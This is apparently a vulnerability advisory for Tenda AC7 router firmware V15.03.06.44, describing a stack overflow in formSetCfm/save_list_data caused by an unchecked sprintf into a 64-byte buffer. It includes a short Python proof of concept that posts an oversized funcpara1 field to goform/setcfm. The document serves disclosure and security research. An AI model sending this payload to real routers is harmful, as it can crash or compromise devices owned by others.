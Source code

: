 ## Overview

- Firmware download website: https://www.tenda.com.cn/download/detail-2776.html

## Affected version

 AC7V1.0 V15.03.06.44

## Vulnerability details

In the Tenda AC7V1.0 V15.03.06.44 has a stack overflow vulnerability located in the `formSetCfm` function. This function accepts the `funcpara1` parameter from a POST request and passes it to the `save_list_data` function. Within `save_list_data`, the array `mib_name` is fixed at 64 bytes. However, since the user has control over the input of `funcpara1`, the statement `sprintf(mib_name, "%s.list%d", list_name, counta);` leads to a buffer overflow. The user-supplied `funcpara1` can exceed the capacity of the `mib_name` array, thus triggering this security vulnerability.

![image-20240318160040332](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240318160040332.png)

![image-20240318160103975](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240318160103975.png)

![image-20240318160147969](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240318160147969.png)

## POC

```python
import requests as re

s = re.Session()
url_base = 'http://192.168.84.101/'

# Send payload
url = url_base + 'goform/setcfm'
data = {
        'funcname': 'save_list_data', 
        'funcpara1': b'a'*0x500, 
        'funcpara2':'aaaaaa'
}

res = re.post(url, data=data)
```

![image-20240318160321131](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240318160321131.png)
